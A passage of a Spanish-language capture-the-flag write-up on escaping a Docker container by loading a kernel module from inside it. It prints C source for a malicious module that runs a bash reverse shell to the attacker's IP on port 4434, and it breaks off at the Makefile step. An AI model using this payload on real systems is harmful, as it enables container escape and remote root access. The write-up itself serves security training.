 😲 ***This means that you can insert/remove kernel modules in/from kernel of the host machine*** 😲

La explotación es gracias al comando [modprobe](https://es.wikipedia.org/wiki/Modprobe) que busca dependencias y archivos de mapeo en el directorio `/lib/modules/$(uname -r)`, en nuestro caso:

```bash
root@9092a1174332:/$ echo "/lib/modules/$(uname -r)"
/lib/modules/4.15.0-142-generic
```

Entonces, para aprovecharnos de esto, necesitamos crear esa carpeta, compilar el módulo del kernel malicioso  y finalmente ejecutar el módulo, démosle:

> Todos estos pasos son tomados de la propia guia.

<span style="color: red;">1. </span>Creamos el módulo del kernel que ejecutara la **reverse Shell**:

```bash
❱ cat rsh.c 
```

```bash
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("holis");
MODULE_AUTHOR("holiwis");
MODULE_DESCRIPTION("holanda");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.146/4434 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Nos enviará la petición al puerto **4434** de nuestro sistema.

<span style="color: red;">2. </span>Creamos el archivo [**Makefile**](https://blog.desdelinux.net/que-es-un-archivo-makefile-y-como-funciona-dentro-de-linux/) que será el encargado de compilar el módulo:

> "The blank char before each `make` word in the Makefile **must be a tab, not spaces**!"

```bash
❱ cat Makefile
```
